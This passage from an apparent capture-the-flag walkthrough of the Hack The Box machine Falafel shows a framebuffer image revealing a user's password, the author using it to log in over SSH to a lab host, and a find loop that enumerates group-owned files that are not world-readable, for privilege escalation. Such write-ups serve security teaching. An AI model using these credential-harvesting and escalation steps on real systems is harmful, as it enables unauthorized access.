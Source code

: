 ![1526605043377](https://0xdfimages.gitlab.io/img/1526605043377.png)

In the next dialog, input the screen resolution, and try different `Image Type` until it looks good (`RGB565` looks best):

![1526605110048](https://0xdfimages.gitlab.io/img/1526605110048.png)

Then export it as png:

![1526605221968](https://0xdfimages.gitlab.io/img/1526605221968.png)

That happens to have yossi’s password on it.

```

root@kali# cat yossi.password
MoshePlzStopHackingMe!

root@kali# cat yossi.password | xclip; ssh yossi@10.10.10.73
yossi@10.10.10.73's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Fri May 18 01:35:48 2018 from 10.10.14.40
yossi@falafel:~$

```

## Find root.txt

### Searching Groups

Because we are looking for things that yossi has access to that moshe doesn’t, we’ll start by looking for files in yossi’s groups that are not world readable:

```

yossi@falafel:/dev/shm/.d$ groups
yossi adm disk cdrom dip plugdev lpadmin sambashare

yossi@falafel:/dev/shm/.d$ for group in $(groups); do echo ${group}; find / -group ${group} ! -type d ! -perm -o=r -exec ls -la {} \; 2>/dev/null | grep -vF " /proc" > ${group}; done
yossi
adm
disk
cdrom
dip
plugdev
lpadmin
sambashare

yossi@falafel:/dev/shm/.d$ ls -l
total 12
-rw-rw-r-- 1 yossi yossi 1836 May 18 13:07 adm
-rw-rw-r-- 1 yossi yossi  106 May 18 13:07 cdrom
-rw-rw-r-- 1 yossi yossi    0 May 18 13:07 dip
-rw-rw-r-- 1 yossi yossi  795 May 18 13:07 disk
-rw-rw-r-- 1 yossi yossi    0 May 18 13:07 lpadmin
-rw-rw-r-- 1 yossi yossi    0 May 18 13:07 plugdev
-rw-rw-r-- 1 yossi yossi    0 May 18 13:07 sambashare
```
